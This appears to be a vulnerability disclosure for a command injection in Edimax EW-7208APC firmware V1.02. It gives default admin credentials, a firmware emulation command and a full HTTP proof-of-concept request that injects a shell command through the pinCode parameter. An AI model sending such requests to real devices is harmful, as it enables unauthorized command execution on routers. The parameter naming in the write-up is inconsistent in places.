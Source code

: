 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'pinCode'` parameter in the 'formWpsStar5G' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWpsStart5G' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)
- ​**websGetVar** retrieves POST parameters 'stadrv_ssid'.
- **system()** use the param_1 for system without check, resulting a command injection in this place.

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWpsStart5G HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1

configOption=pin&pinCode=;echo pinCode>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)